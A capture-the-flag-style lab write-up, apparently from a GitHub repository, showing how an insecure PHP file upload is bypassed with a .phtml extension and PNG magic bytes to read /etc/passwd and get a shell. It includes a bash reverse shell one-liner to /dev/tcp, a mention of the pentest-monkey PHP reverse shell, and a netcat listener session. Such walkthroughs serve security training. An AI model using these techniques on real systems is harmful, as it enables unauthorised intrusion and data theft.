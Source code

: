 # Challange - Insecure File Upload

- Upon navigating to the site I got this interface:

![image](https://github.com/thesinghsec/WebVulnLab/assets/126919241/ba7b506c-20ff-498e-a8bd-f47a11cccb33)

- On trying to upload text or other extension files except "png" and "jpg" I got the error message:

![image](https://github.com/thesinghsec/WebVulnLab/assets/126919241/288466d2-9c14-48dc-a93d-cbbba7b7e36a)

- So, I go with uploading a png file and intercept the request to the burp suite to analyze the request:

![image](https://github.com/thesinghsec/WebVulnLab/assets/126919241/a4eac0b5-5be8-4d53-b517-272c34797cca)

- After several tries, I can't able to upload the file, it returns an error:

![image](https://github.com/thesinghsec/WebVulnLab/assets/126919241/cbb11337-31b4-4feb-bcf5-0f2ddc1df934)

- Quick ping to mind, maybe the extension "PHP" is in the blocked list. I tried with other extensions and see if they work.
- I tried with the extension ".sh" and luckily it works
- I inject a bash reverse shell into the image png magic bytes.
- cmd: `bash -i >& /dev/tcp/<IP>/4242 0>&1`

![image](https://github.com/thesinghsec/WebVulnLab/assets/126919241/220cc4a2-b12f-4cc5-a67b-a5601703366c)

- Unfortunately, on navigating to the "bash.sh" file in the URL I got no results.

![image](https://github.com/thesinghsec/WebVulnLab/assets/126919241/bf3aedd2-81ab-4374-98ab-430bd3b61431)

- On enumerating a little deeper, I notice that the website is working on PHP and PHP extension is blocked by the server.
- I do a quick search on Google regarding bypassing the php extension blockage.
- There I get to know about other extensions that worked with PHP such as:

![image](https://github.com/thesinghsec/WebVulnLab/assets/126919241/c7a0813b-0829-49e3-a8e1-0df50f7ad261)

- I quickly changed the file extension from "image.php" to "image.phtml" and send a request through Burp Suite's repeater by inserting command line code in image png magick bytes.
- I get succeed in uploading the file with the extension ".phtml"
  
![image](https://github.com/thesinghsec/WebVulnLab/assets/126919241/06d8f150-69ff-4d4f-8533-9d2f49f4f975)

- On navigating to the file through the URL I successfully get the revert by embedding the command and argument into the URL.

![image](https://github.com/thesinghsec/WebVulnLab/assets/126919241/0440bf04-f4a8-46fc-b5df-9fec0f26a1e5)

- I also get succeeded in fetching "passwd" file from the system.

![image](https://github.com/thesinghsec/WebVulnLab/assets/126919241/e5669c4a-ffed-4b2a-af83-162e8425589b)

- To get the reverse shell to my system I use PHP reverse shell by pentest-monkey and replace it in place of the previous injected command.
- Netcat is set for listening.

![image](https://github.com/thesinghsec/WebVulnLab/assets/126919241/433afc2b-6a69-4766-9e05-a9edffa75c59)

- On navigating to the uploaded file I got a reverse shell to my system successfully

![image](https://github.com/thesinghsec/WebVulnLab/assets/126919241/851da0fe-7c14-46b3-bb71-953c009a07bb)

```bash
└─$ rlwrap nc -nvlp 1234
listening on [any] 1234 ...
connect to [xxx.xxx.xxx.89] from (UNKNOWN) [xxx.xxx.xx.4] 39498
Linux d19181ed4936 6.3.0-kali1-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.3.7-1kali1 (2023-06-29) x86_64 GNU/Linux
 08:36:38 up  5:06,  0 users,  load average: 1.22, 1.41, 1.59
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ 
```
